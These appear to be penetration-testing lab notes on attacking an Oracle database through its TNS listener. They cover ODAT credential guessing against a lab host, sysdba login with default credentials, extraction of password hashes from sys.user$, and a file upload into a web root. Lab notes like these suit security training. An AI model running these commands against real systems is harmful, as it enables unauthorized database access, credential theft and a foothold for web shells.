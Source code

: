 ```
./odat.py all -s 10.129.204.235

#result:
[+] Valid credentials found: scott/tiger. Continue...
```

connect  to db
```shell-session
$ sqlplus scott/tiger@10.129.204.235/XE
```
If you come across the following error `sqlplus: error while loading shared libraries: libsqlplus.so: cannot open shared object file: No such file or directory`, please execute the below, taken from [here](https://stackoverflow.com/questions/27717312/sqlplus-error-while-loading-shared-libraries-libsqlplus-so-cannot-open-shared).

#### Oracle RDBMS - Interaction

```shell-session
sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig
```

```shell-session
 select table_name from all_tables;

 select * from user_role_privs;
```
### db enumeration
```shell-session
sqlplus scott/tiger@10.129.204.235/XE as sysdba
```

#### Oracle RDBMS - Extract Password Hashes
```shell-session
select name, password from sys.user$;
```
#### Oracle RDBMS - File Upload

```shell-session
echo "Oracle File Upload Test" > testing.txt
./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt

[1] (10.129.204.235:1521): Put the ./testing.txt local file in the C:\inetpub\wwwroot folder like testing.txt on the 10.129.204.235 server                                                                                                  
[+] The ./testing.txt file was created on the C:\inetpub\wwwroot directory on the 10.129.204.235 server like the testing.txt file
```

Finally, we can test if the file upload approach worked with `curl`. Therefore, we will use a `GET http://<IP>` request, or we can visit via browser.

Oracle TNS
